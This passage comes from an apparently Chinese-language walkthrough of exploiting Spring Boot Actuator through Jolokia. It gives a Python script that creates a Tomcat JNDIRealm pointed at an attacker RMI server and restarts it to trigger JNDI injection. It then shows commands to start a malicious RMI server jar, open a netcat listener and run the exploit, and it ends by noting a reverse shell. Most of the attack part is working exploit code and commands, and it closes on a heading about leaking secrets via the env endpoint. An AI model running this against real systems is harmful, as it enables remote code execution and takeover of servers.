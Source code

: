 ```
    "attribute": "connectionURL",
    "value": "rmi://x.x.x.x:1097/jndi"
}
#停止Realm
stop_JNDIrealm = {
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "EXEC",
    "operation": "stop",
    "arguments": []
}
#运行Realm，触发JNDI 注入
start = {
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "EXEC",
    "operation": "start",
    "arguments": []
}

expoloit = [create_JNDIrealm, set_contextFactory, set_connectionURL, stop_JNDIrealm, start]

for i in expoloit:
    rep = req.post(url, json=i)
    pprint(rep.json())

```

- 运行RMI服务

```
java -Djava.rmi.server.hostname=x.x.x.x -jar RMIServer-0.1.0.jar
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522174149.png)

- nc 监听

```
nc -lvp 6666
```

- python发送请求

```
python exp.py http://127.0.0.1:8090
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522174426.png)

- 反弹shell

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521231326.png)

##  env端点利用
### SpringBoot env 获取* 敏感信息
